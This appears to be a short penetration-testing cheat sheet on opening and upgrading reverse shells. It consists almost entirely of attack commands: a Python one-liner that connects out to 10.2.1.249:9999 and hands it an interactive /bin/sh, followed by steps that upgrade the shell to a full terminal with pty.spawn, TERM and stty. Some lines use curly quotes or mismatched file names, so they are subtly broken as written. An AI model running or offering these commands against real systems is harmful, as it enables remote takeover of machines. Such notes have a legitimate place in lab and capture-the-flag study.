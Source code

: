 # Modify Reverse Shells
---
`python3 -c 'socket=__import__("socket");subprocess=__import__("subprocess");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.1.249",9999));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'`

`python3 -c ‘import pty;pty.spawn(“/bin/bash”)’`
`export TERM=xterm`
`ctrl-z, stty raw -echo; fg`

`echo "import pty; pty.spawn('/bin/bash')" > /tmp/anyname.py`
`python(3) /tmp/filename.py`